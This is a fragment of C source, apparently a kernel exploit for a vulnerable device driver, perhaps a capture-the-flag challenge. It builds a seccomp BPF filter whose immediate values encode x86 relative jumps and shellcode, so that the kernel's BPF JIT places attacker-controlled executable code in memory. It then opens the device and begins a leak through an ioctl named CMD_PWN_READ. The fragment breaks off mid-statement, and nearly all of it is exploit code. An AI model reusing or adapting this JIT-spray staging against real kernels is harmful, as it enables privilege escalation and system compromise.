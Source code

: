 ```c
void install_seccomp_filter(int hash) {
    int idx;
    struct sock_filter filter[1000] = {0};

    struct sock_filter mov_hash = BPF_STMT(BPF_LD | BPF_IMM, hash);
    struct sock_filter long_rel_jmp = BPF_STMT(BPF_LD | BPF_IMM, 0x909008eb);
    struct sock_filter short_rel_jmp = BPF_STMT(BPF_LD | BPF_IMM, 0x909003eb);
    struct sock_filter ret = BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW);
    

    for(idx = 0; idx < LANDING_ZONE_SIZE-1; idx += 2){ // landing zone
        memcpy(&filter[idx], &mov_hash, sizeof(struct sock_filter));
        memcpy(&filter[idx+1], &long_rel_jmp, sizeof(struct sock_filter));
    }

    // last jump has to be shorter (if not we would skip some shellcode)
    memcpy(&filter[LANDING_ZONE_SIZE-1], &short_rel_jmp, sizeof(struct sock_filter));
    
    
    for(idx = 0; idx < sizeof(shellcode); ++idx){
        struct sock_filter tmp = BPF_STMT(BPF_LD | BPF_IMM, *(unsigned int *)shellcode[idx]);
        memcpy(&filter[idx + LANDING_ZONE_SIZE], &tmp, sizeof(struct sock_filter));
    }

    memcpy(&filter[999], &ret, sizeof(struct sock_filter));

    struct sock_fprog prog = {
        .len = (unsigned short)(sizeof(filter) / sizeof(filter[0])),
        .filter = filter,
    };

    // Apply the seccomp filter
    if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) != 0) {
        perror("prctl(PR_SET_NO_NEW_PRIVS) failed");
        exit(EXIT_FAILURE);
    }

    if (prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog) != 0) {
        perror("prctl(PR_SET_SECCOMP) failed");
        exit(EXIT_FAILURE);
    }
}

int main(int argc, char **argv){
    int dev, r, pid;
    void (* function)(void);
    void *bpf_addr, *code, *code_base;


    dev = open(DEV, O_RDWR | O_NONBLOCK);
    if(dev < 0)
        err(1, "could not open device");

    //
    // exploit goes here
    //    

    // allocate first stage shellcode (jitted)
    install_seccomp_filter(VOID_STATIC_HASH);

    // module & seccomp filter area leak
    r = ioctl(dev, CMD_PWN_READ, &function);
    if(r != 0) 
```